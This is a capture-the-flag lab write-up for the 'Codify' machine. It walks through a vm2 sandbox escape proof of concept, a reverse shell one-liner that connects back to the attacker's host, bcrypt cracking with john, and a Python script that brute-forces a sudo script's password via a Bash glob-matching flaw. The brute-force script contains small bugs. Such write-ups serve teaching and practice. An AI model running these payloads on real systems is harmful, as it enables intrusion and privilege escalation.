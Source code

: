 # Codify

### Difficulty:

Easy

### Tools used:

- Nmap - network scan
- john -  password cracking

Always refer to the help section if you are unsure of how to use the tool or are unfamiliar with how a flag works.

## Walkthrough

I initiated with a simple nmap scan to see what we had. As is customary, I checked port 80 since it's typically where we need to start. I observed that the webpage had a field to test some codes, and I speculated that the vulnerability might be there. To proceed, I needed to identify what they used to determine if any vulnerabilities or security flaws existed. I began by attempting some broken codes to observe the responses and noted some errors. Despite trying some directory traversal, I didn't find anything particularly useful.

![Untitled](Images/Untitled.png)

I walked around through the pages ‘til I found something useful. When I reached the 'About us' page, I noticed that they use a library named 'vm2' for code virtualization.

![Untitled](Images/Untitled%201.png)

I opened [vm2 github page](https://github.com/patriksimek/vm2/) and went directly to issues and security tabs to see what could lead us to exploiting this. 

![Untitled](Images/Untitled%202.png)

Found [many security](https://github.com/patriksimek/vm2/security) flaws with sandbox escape title. So I thought it’s exactly what I’m looking for. Opened some of them and chose to try [this one](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244).

This is the code provided in the PoC:

```jsx
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```

Next, I modified the `execSync` parameter to obtain a reverse shell. I opened a netcat session and attempted various types found at [revshell](https://www.revshells.com/). After a few attempts resulting in errors, I successfully obtained a shell with the following command: `TF=$(mktemp -u);mkfifo $TF && telnet <my_ip> <my_port> 0<$TF | bash 1>$TF`.

Gotcha, I’m in! I tested a few commands to verify everything was working fine. Subsequently, I upgraded my terminal—I've already shared some methods in previous write-ups.

![Untitled](Images/Untitled%203.png)

As it was a webpage the first thing we can do is going to the `/var/wwww/` and see what we’ve got. We found the “code” page which was the one we exploited to get here and also a contacts page which had a `.db` file. So, we tried to read the data inside it using `sqlite`.

As it was a webpage, the first thing we did was navigate to `/var/www/` to explore what we've got. We found the “code” page, which was the one we exploited to get here, and also a “contacts” page containing a `.db` file. Therefore, we attempted to read the data inside it using `SQLite`.

![Untitled](Images/Untitled%204.png)

We found a user table with a user named “joshua”. At this point, we knew this machine had a local user with the same name — Running `cat /etc/passwd`. The “contacts”page resembled a ticket system, and within the database, we discovered the hash of a password associated with the user. Consequently, we needed to take some action with it.

![Untitled (3).png](Images/Untitled_(3).png)

Initially, we needed to determine the type of hash. After searching for “$2a$ hash”, I found out it was a bcrypt hash.

![Untitled](Images/Untitled%205.png)

So I tried to crack it with `john` and that was it, we got the password.

![Untitled](Images/Untitled%206.png)

As I know that the user is always dumb enough to use the same password everywhere I also tried to use it to login in the local user. And guess what?

It worked, so we’re able to get the user flag.

![Untitled](Images/Untitled%207.png)

As is my usual practice upon gaining access to a user, I used `sudo -l` to check what commands the user could run with root privileges. I discovered a script named “mysql-backup.sh”. To better understand its behavior, we attempted to run it.

![Untitled](Images/Untitled%208.png)

Unfortunately, we discovered that we couldn't run it at the moment. Now, we need to find a way to leverage this script to escalate privileges and gain root access.

![Untitled](Images/Untitled%209.png)

So I opened the script to see what it does. 

![Untitled](Images/Untitled%2010.png)

It doesn’t seems to do anything wrong. Here I tried to run some of those lines to see if it has anything interesting — I got stuck in this step for some hours, no way this is a easy machine from now on.

A friend of mine pointed out that the issue lay in the line `if [[ $DB_PASS == $USER_PASS ]];`. It appears that when comparing without quotes in the right-hand side using double square brackets **`[[`**, Bash performs pattern matching instead of treating it as a string. This means that if you include a **`*`** when checking the password, it will always be considered True because **`*`** matches any string.

To correct this, the comparison should be written as `if [[ $DB_PASS == "$USER_PASS" ]];`. If you're unfamiliar with how this works, you can check out [this wiki](https://mywiki.wooledge.org/BashPitfalls#if_.5B.5B_.24foo_.3D_.24bar_.5D.5D_.28depending_on_intent.29). My friend mentioned that he had a script capable of brute-forcing the password due to this flaw. Although I won't explain it, I encourage you to take a few minutes to understand how it works as homework; it's quite straightforward if you have basic programming knowledge.

```bash
import string
import subproccess

def check_password(p):
	command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
	result = subprocess.run(command, shell=True, stdout=subproccess.PIPE, stderr=subproccess.PIPE, text=True)
	return "Password confirmed!" in result.stdout

charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

while not is_password_found:
	for char in charset:
		if check_password(password + char)
			password += char
			print(password)
			break
	else:
		is_password_found = True
```

Executing the script will output the results of the password brute force process, and the last output will reveal the found password. With this password in hands, we can attempt to escalate to root.

![Untitled](Images/Untitled%2011.png)

Then, you can just get your flag and go home.

![Untitled](Images/Untitled%2012.png)

**NOTE**: Before reaching the final step with the script, I attempted numerous strategies with the databases until I hit a point of frustration. Figuratively speaking, I felt like smashing my head against the wall. In times of struggle, I made the decision to seek help from someone with more experience in CTF.

**LESSON LEARNED**: Sometimes you encounter tasks that seem impossibly hard, and you might get stuck. There will be moments of self-blame for not finding the right path or overlooking hints, especially on a self-proclaimed **EASY** machine. However, it's crucial never to give up. Learning is challenging, and sometimes you may need a bit of guidance from others or search online if someone has shared a similar step. Strive to find the solution on your own, but when you're truly stuck, it's okay to seek help to save time and preserve your sanity.

